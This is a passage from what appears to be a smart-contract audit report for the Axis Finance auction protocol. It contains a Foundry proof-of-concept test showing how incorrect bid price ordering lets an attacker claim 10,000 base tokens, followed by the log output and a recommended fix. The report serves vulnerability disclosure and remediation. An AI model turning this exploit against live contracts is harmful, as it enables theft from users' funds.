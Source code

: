 ```solidity
            permit2Data: ""
        });
        auctionHouse.bid(bidParamsA1, callbackData_);
        vm.stopPrank();

        vm.rollFork(15_470_093);
        encryptedMarginalPriceAuctionModule.submitPrivateKey(uint96(0), privateKey, uint64(3));
        auctionHouse.settle(uint96(0));   

        console2.log("Attacker's balance in base token: ", mockBaseToken.balanceOf(attacker));
        uint64[] memory bidsToClaim = new uint64[](2);
        bidsToClaim[0] = 2;
        bidsToClaim[1] = 3;
        auctionHouse.claimBids(uint96(0), bidsToClaim);
        console2.log("Attacker's balance in base token: ", mockBaseToken.balanceOf(attacker));
        console2.log("Attacker's balance in base token normalized: ", mockBaseToken.balanceOf(attacker)/1e18);
        console2.log("Attacker's balance in usdc token: ", mockQuoteToken.balanceOf(attacker));
    }
```

```solidity
Logs:
  Attacker's balance in base token:  0
  Attacker's balance in base token:  10000000000000000000000
  Attacker's balance in base token normalized:  10000
  Attacker's balance in usdc token:  28
```
To run the test use: ``forge test -vvv --mt test_IncorrectPriceOrdering``

## Impact
Wrong price calculation leads to several detrimental exploits of the ``Axis-Finance`` protocol

## Code Snippet
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/lib/MaxPriorityQueue.sol#L109-L120

## Tool used
Manual Review & Foundry

## Recommendation
The mismatched params can be fixed by the following way:
```solidity
        uint256 relI = uint256(bidI.amountIn) * uint256(bidI.minAmountOut);
        uint256 relJ = uint256(bidJ.amountIn) * uint256(bidJ.minAmountOut);
```
As for the other part, consider adding another param to the Bid struct, that takes the base decimals, and then calculate the price as follows: 
```solidity
price = uint96(Math.mulDivUp(bidI.amountIn, baseScale_, bidI.minAmountOut));
```